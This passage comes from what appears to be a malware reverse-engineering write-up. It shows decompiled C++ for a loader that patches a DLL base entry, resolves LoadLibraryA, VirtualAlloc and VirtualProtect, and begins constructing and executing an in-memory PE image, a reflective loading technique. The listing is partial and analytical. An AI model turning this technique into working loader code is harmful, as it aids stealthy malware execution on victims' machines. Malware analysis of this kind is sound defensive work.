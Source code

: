 ```cpp
      Entry[6] = newDllBasePointee;
      return 1;
    }
    Entry = (_DWORD *)*Entry;
  }
  while ( Entry != FlinkPtr );
  return 0;
}
```

Let's proceed with **Code 17**:
```cpp
 v24 = sub_40100F(localBuffer);
 ```
We won't fully analyze the function as it's very lengthy, so I will just post the function with (already) renamed names:
First of all, let's write locaBuffer as a structure:
#### Code 18 - LocalBuffer structure
```cpp
struct LocalBuffer {
  void* imageBase;
  char* decryptedBytes; // bytes that describe the DLL that's being loaded
  void* GetProcessAddressVA;
  void* LoadLibraryAVA;
  void* VirtualProtectVA;
  void* VirtualAllocVA;
  void* VirtualFreeVA;
```
Let's now see what `sub_40100F` does (with already renamed names). The logic to find what each variable is is identical as before, we just need to find offsets into the PE headers and everything becomes clear.
#### Code 19 
```cpp
int __stdcall ConstructPE_AndExecute(char **localBuffer)
{
  char v2; // [esp-5Dh] [ebp-61h] BYREF
  int entryPoint; // [esp-3Eh] [ebp-42h]
  int newFlag; // [esp-3Ah] [ebp-3Eh]
  unsigned __int16 NumberOfSections; // [esp-36h] [ebp-3Ah]
  char *NtOptionalHeader; // [esp-34h] [ebp-38h] BYREF
  char *currentSectionHeader; // [esp-30h] [ebp-34h]
  char *NtImageHeader; // [esp-2Ch] [ebp-30h] BYREF
  char *ImageSectionHeader; // [esp-28h] [ebp-2Ch] BYREF
  char *sectionDataPtr; // [esp-24h] [ebp-28h]
  unsigned int i; // [esp-20h] [ebp-24h]
  char *v12; // [esp-1Ch] [ebp-20h]
  int v13; // [esp-18h] [ebp-1Ch]
  unsigned int CanSectionBeWrittenTo; // [esp-14h] [ebp-18h]
  int SectionSizeMinus2; // [esp-10h] [ebp-14h]
  int CanSectionBeRead; // [esp-Ch] [ebp-10h]
  int CanSectionBeExecuted; // [esp-8h] [ebp-Ch]
  char *DosNtOptionalHeadersPtr; // [esp-4h] [ebp-8h] BYREF

  i = 0;
  NumberOfSections = 0;
  DosNtOptionalHeadersPtr = 0;
  newFlag = 0;
  NtImageHeader = 0;
  NtOptionalHeader = 0;
  ImageSectionHeader = 0;
  v13 = -1;
  entryPoint = 0;
  sectionDataPtr = 0;
  SectionSizeMinus2 = 0;
```